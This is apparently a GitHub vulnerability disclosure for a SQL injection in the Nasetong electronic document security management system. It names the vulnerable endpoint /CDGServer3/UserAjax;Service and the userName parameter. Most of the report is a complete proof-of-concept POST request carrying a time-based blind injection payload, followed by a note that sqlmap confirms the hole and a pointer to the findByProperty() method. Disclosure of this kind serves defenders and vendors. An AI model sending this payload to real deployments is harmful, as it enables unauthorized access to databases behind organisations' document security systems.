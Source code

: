 ## Affected version: 
SQL injection exists in the Nasetong electronic document security management system

## Official website:
https://www.esafenet.com/xwzx/


## Vulnerability File:
/CDGServer3/UserAjax

## Description:
There is SQL injection in the Nasetong electronic document security management system, which can be bypassed by the filter to achieve delayed injection. The vulnerable parameter is userName.

Status: CRITICAL

## Vulnerability recurrence

/CDGServer3/UserAjax;Service

POC
```
POST /CDGServer3/UserAjax;Service HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=2165527D28E701B8AB471584A11C40F8; JSESSIONID=C2320AC8D9656081FE8A3CF6A87DE53E
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.12.3
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

command=isExist&userName=123';waitfor delay '0:0:5'-- q
```
Prove the existence of injection through sqlmap

<img width="640" alt="image" src="https://github.com/user-attachments/assets/f6c8bac3-218c-499b-9f46-24395624dcfc" />

## code analysis:

In the findByProperty() method, SQL statement parameter splicing exists and is controllable
![CleanShot 2025-03-20 at 23 54 17@2x](https://github.com/user-attachments/assets/7ba8a8ab-1faf-48f7-b2e5-37995fd72615)



